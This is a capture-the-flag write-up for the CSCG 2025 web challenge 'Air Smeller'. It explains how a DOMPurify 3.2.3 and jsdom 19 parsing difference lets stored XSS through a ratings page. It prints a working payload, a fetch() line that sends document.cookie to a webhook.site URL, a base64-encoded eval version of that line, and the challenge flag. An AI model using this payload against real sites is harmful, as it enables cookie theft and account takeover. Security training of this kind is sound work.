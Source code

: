 ```yaml
---
title: Air Smeller - CSCG 2025 - Write-Up
date: 2025-04-24 10:04:00 +0200
categories: [Cyber Security Challenge Germany]
tags: [web,js,xss,hard]
description: Find a XSS vulnerability.
image:
  path: /assets/blog/Air Smeller/logo.png
  alt: CSCG image
---
```


This is a Write-Up for the challenge "Air Smeller" of the CSCG 2025, the challenge is rated as hard and can be found in the Web category.

## Description

> I found this website were you can rate the smell of the air, after purification. Do you know a good purifier, maybe you can recommend some purifier to the people.

We are given a code of a web app written in NextJS, the application allows us to submit ratings with text. A bot is visiting the site every X minutes.

## Vulnerability

You get the source code of the site, with the line:

```jsx
"use server";

import { getRatings } from "@/utils/ratings";
import { JSDOM } from "jsdom";
import DOMPurify from "dompurify";
import { Stars } from "./stars";

export const Ratings = async () => {
  const window = new JSDOM("").window;
  const purify = DOMPurify(window);

  return (
    <div>
      <div className="font-bold">
        What other people said about the smell of our purifier:
      </div>
      {(await getRatings()).map((r, i) => (
        <div key={i} className="flex bg-white p-2 flex-col">
          <div className="rounded-lg border p-2 w-full bg-blue-200">
            <Stars value={r.stars} />
            <div
              dangerouslySetInnerHTML={ { __html: purify.sanitize(r.comment) } }
            />
          </div>
        ...
        </div>
      ))}
    </div>
  );
};
```

The content of the comment is rendered using the `purify` sanitizer and the `dangerouslySetInnerHTML`. The `DOMPurify` library parses HTML code and decides whether the tags are allowed or not, it filters for malicious payloads which cloud execute malicious code and filters them out. The idea of this challenge is to find a way to bypass this function and execute XSS because in this challenge there is a bot visiting the site every few minutes and if we can get the bot to execute our malicious JavaScript we can retrieve the flag from the bots cookie and write it to the page or send it to some listener.

If you look at the GitHub page of the project [`DOMpurify`](https://github.com/cure53/DOMPurify) and check the releases you won't easily find a node for a fix of the vulnerability. The thing to note is, that the payload not only depends on `DOMpurify` but also `jsdom`. `jsdom` is basically a HTML parser, you can give the application code and it will build objects out of it.

The next thing I did is looking for known vulnerabilities. We have to note, that jsdom is in our project as version 19.0 and DOMpurify in `3.2.3`.


I found [this](https://www.ias.cs.tu-bs.de/publications/parsing_differentials.pdf) article of the University of Braunschweig. The article describes XS vulnerabilities in detail and it matches the versions we are working with (DOMPurify (jsdom19)).

In section `5.2. Weaponizing Sanitizers`, you can read about the vulnerability of jsdom, which translates the payload `<svg><style>&lt;img src=x onerror=f()&gt;<keygen>` to `<svg><style><img src=x onerror=f()>`, which essentially weaponizes the payload.

You can try the payload and check if the server is vulnerable.


## Exploit

We can use this payload to build our own payload.

The easiest way to execute code for me is using `eval(atob(""))` which can be used to convert an base64 string and then execute it in JS, with that we do not have to worry about any encoding issues or problems, we can simply add this payload to the `onerror`, so `onerror=eval(atob("")`.

To exfiltrate the flag we can simply use a webhook. I got one from [https://webhook.site](https://webhook.site), you can copy your private URL and create the exfiltration payload with it:
```js
fetch("https://webhook.site/a44da78b-0275-41f1-afce-4417126867d4?test"+document.cookie)
```

With that you can base64 encode the payload and then use the final payload:
```
<svg><style>&lt;img src=x onerror=eval(atob("ZmV0Y2goImh0dHBzOi8vd2ViaG9vay5zaXRlL2E0NGRhNzhiLTAyNzUtNDFmMS1hZmNlLTQ0MTcxMjY4NjdkND90ZXN0Iitkb2N1bWVudC5jb29raWUp"))&gt;<keygen>
```

Then you can paste the payload and execute it after around 60 seconds you should get the flag returned.



Flag:
```
CSCG{0ld_A1r_Smeels_B4d}
```
